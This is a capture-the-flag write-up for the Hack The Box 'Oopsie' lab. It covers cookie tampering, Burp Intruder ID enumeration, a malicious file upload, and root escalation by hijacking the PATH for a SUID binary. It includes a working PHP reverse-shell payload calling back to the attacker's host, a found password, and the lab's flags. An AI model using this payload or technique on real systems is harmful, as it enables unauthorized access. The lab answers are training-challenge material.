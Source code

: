 # Machine Name
Oopsie is a very easy linux machine on Hack The Box Starting Point Tier 1 that focuses on privilege escalation by altering website cookies and by overwriting the linux path environment variable.

## Task 1
**With what kind of tool can intercept web traffic?**
> proxy

## Task 2
**What is the path to the directory on the webserver that returns a login page?**
> /cdn-cgi/login

We can use BurpSuite to get a site-map for our target website. Looking at the site-map, we see that there is a url to `/cdn-cgi/login/script.js`:

![BurpSuite Site Map](BurpSuite.png)

We navigate to the login page `http://{TARGET IP}/cdn-cgi/login`:

![Login Page](login_page.png)

## Task 3
**What can be modified in Firefox to get access to the upload page?**
> cookie

We login as guest and click the Upload tab at the top of the webpage. We see that we need super admin rights to access the upload page:

![Super User](super_user.png)

We go to the Proxy Tab and then Intercept Tab in BurpSuite. Then we turn intercept on visit the upload page again. We see that the website makes an HTTP Request with `user` and `role` cookies:

![Intercepted Upload HTTP Request](upload_request.png)

## Task 4
**What is the access ID of the admin user?**
> 34322

The account page shows the current user:
![Account Page](account_page.png)

We go to the Proxy Tab and then Intercept Tab in BurpSuite. Then we turn intercept on and visit the account page on the target website while logged in as the guest user:

![Intercepted Account HTTP Request](accounts_request.png)

Next we send the intercepted HTTP Request in BurpSuite to the Intruder. On the positions tab, we set the attack type to `Sniper` and set the payload to id:

![Intruder Positions Tab](intruder1.png)

On the payload tabs, we set the Payloads type to `Numbers`:

![Intruder Payloads Tab](intruder2.png)

On the settings tab, we set Grep - Match to `admin`:

![Intruder Settings Tab](intruder3.png)

After starting the attack, we see that an id of `1` one gives us the admin account page:

![Intruder Attack Result](intruder4.png)

Lastly, we navigate to `http://{TARGET IP}cdn-cgi/login/admin.php?content=accounts&id=1` and see that the admin access ID is 34322:

![Admin Account Information](admin_account.png)

## Task 5
**On uploading a file, what directory does that file appear in on the server?**
> /uploads

Next we go to the upload tab on the target website and change the cookies to `34322` and `admin`:

![Set Cookies](set_cookies.png)

We see that we can upload files now:

![Upload Files Page](upload.png)

We make a file called `test.txt` and upload it. Next we use gobuster to search for the folder that our uploaded file is in:

![Gobuster Find Uploaded File](gobuster.png)

## Task 6
**What is the file that contains the password that is shared with the robert user?**
> db.php

We make a `shell.php` file on our own computer:

```php
<?php

$sock=fsockopen("{OUR IP}",12345);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);

?>
```

Next open a netcat listener on our computer. Next we upload the `shell.php` to the target website and visit `http://{TARGET IP}/uploads/shell.php`:

![Reverse Shell](reverse_shell.png)

In our reverse shell, we search `the /var/www/html` directory for files containing the word robert. The only file containing the word robert is `cdn-cgi/login/db.php`:

![Roberts Password](password.png)


## Task 7
**What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?**
> find

We run the bash find command to find the only file owned by the bugtracker group is `/usr/bin/bugtracker`:

```bash
find / -group bugtracker 2>/dev/null
```

## Task 8
**Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?**
> root

We can use stat to check the privileges of the `/usr/bin/bugtracker` file:

![Bugtracker Privileges](bugtracker_access.png)

## Task 9
**What SUID stands for?**
> Set owner User ID

## Task 10
**What is the name of the executable being called in an insecure manner?**
> cat

We try to run the `/usr/bin/bugtracker` executable but can't. We get a terminal and login as robert with `M3g4C0rpUs3r!` the password we found earlier"

![Running Bugtracker](running_bugtracker.png)

Now we can run the `/usr/bin/bugtracker` executable. We give an ID of 500. The executable then throws an error because the `cat` command cannot find a file named `/roots/report/500`:

![Error](cat.png)

## User Flag
> f2c74ee8db7983851ab2a96a44eb7981

![User Flag](user_flag.png)

## Root Flag
> af13b0bee69f8a877c3faf667f7beacf

The executable for the `cat` command is stored at `/bin/cat`. We have privileges in the `/tmp` directory. In the `/tmp` directory, we make a new executable `cat` with the contents `/bin/sh`. Then we modify the path variable. Now the executable for the `cat` command is the file that we wrote:

![Replaced Cat Command](overwriting_cat.png)

We can execute the `cat` command and any following command will be executed by our bash shell as the root user:

![Root Flag](root_flag.png)

